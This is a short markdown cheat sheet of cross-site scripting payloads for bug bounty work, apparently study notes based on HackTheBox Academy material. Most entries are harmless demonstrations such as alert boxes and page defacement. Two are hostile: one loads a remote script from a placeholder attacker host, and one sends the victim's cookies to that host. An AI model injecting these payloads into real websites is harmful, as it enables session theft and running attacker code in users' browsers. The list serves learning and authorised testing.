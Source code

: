 ```yaml
---
{"dg-publish":true,"permalink":"/cybersecurity/bug-bounties/cross-site-scripting/xss-payloads/","tags":["XSS"]}
---
```



| Code | Description |
| -----  | ------------ |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
|`<script>print()</script>`| Basic XSS Payload |
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`| Change Background Color |
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
